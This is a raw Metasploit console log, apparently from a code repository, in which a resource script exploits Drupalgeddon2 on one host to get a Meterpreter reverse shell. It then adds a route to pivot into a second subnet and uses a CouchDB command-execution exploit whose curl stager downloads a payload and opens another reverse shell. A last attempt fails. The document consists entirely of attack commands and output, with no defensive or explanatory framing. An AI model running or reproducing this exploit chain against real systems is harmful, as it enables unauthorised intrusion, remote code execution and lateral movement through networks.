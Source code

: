 ```console

       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Search can apply complex filters such as search cve:2009 type:ex                                                                                                                     ploit, see all the filters with help search

[*] Processing attack2.rc for ERB directives.
resource (attack2.rc)> use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (attack2.rc)> set RHOST 192.168.10.101
RHOST => 192.168.10.101
resource (attack2.rc)> set RPORT 8080
RPORT => 8080
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:36632) a                                                                                                                     t 2020-08-18 09:23:54 -0500
[*] Session 1 created in the background.
resource (attack2.rc)> route add 192.168.20.0/24 1
[*] Route added
resource (attack2.rc)> use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
resource (attack2.rc)> set LPORT 4445
LPORT => 4445
resource (attack2.rc)> set LHOST 10.114.209.151
LHOST => 10.114.209.151
resource (attack2.rc)> set RHOST 192.168.20.100
RHOST => 192.168.20.100
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4445
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/4u4h7sj6qJrKq
[*] Local IP: http://10.114.209.151:8080/4u4h7sj6qJrKq
[*] 192.168.20.100:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /4u4h7sj6qJrKq
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 2 opened (10.114.209.151:4445 -> 10.114.209.148:20667)                                                                                                                      at 2020-08-18 09:24:20 -0500
[+] Deleted /tmp/zzdlnybu
[+] Deleted /tmp/ltvyozbf
[*] Server stopped.
[*] Session 2 created in the background.
resource (attack2.rc)> set LPORT 4446
LPORT => 4446
resource (attack2.rc)> set RHOST 192.168.20.101
RHOST => 192.168.20.101
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4446
[-] Exploit aborted due to failure: unknown: Something went horribly wrong and w                                                                                                                     e couldn't continue to exploit.
[*] Exploit completed, but no session was created.
```
